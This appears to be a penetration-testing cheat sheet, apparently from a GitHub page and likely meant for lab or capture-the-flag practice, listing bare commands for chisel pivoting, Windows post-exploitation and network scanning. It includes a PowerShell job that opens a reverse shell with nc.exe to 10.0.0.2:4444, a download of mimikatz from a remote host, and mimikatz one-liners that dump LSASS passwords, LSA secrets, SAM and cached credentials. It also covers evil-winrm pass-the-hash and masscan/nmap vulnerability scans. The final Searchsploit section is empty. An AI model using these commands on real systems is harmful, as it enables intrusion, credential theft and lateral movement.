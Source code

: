 ## Chisel/Pivoting
```powershell
cat /etc/proxychains4.conf

linux
./chisellinuxamd server -p 8080 --reverse &
./chisellinuxamd client 10.10.16.25:8080 R:socks &
ps auxww | grep chisel

windows
$scriptBlock = { Start-Process C:\Windows\Tasks\chisel.exe -ArgumentList @('client','10.0.0.2:8080','R:socks') } 
Start-Job -ScriptBlock $scriptBlock

$process = Get-Process -Name chisel 
Stop-Process -Id $process.Id

#rev shell
$scriptBlock = { Start-Process C:\Windows\Tasks\nc.exe -ArgumentList @('10.0.0.2','4444','-e','cmd.exe') } 
Start-Job -ScriptBlock $scriptBlock
```

## Dump password
```
powershell iwr -uri 10.10.14.14/mimikatz.exe -outfile m.exe
.\m.exe "privilege::debug" "sekurlsa::logonpasswords" exit
.\m.exe "privilege::debug" "token::elevate" "lsadump::lsa /patch" exit
pypykatz lsa minidump lsass.DMP

#one line all
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```

## Evil winrm
```
evil-winrm -i 192.x.x.101 -u administrator -H xxxxxxxx
upload local_filename destination_filename
download remote_filename destination_filename
```

## NSE Scripts Scan
```
cat script.db | grep '"vuln"\\|"exploit"'
nmap -sV --script=vulscan/vulscan.nse
```
Port specific NSE script list:
```
ls /usr/share/nmap/scripts/ssh\*
ls /usr/share/nmap/scripts/smb\*

masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.x -e tun0 > ports
ports=\$(cat ports | awk -F " " '{print \$4}' | awk -F "/" '{print \$1}' | sort -n | tr '\n' ',' | sed 's/,\$//')
nmap -Pn -sV -sC -p$ports 10.10.10.x
```
Running specific NSE scripts:
```
nmap -Pn -sC -sV --script **"http-*"** -p$ports 10.10.10.x -T4 -A
```
Searchsploit
```
```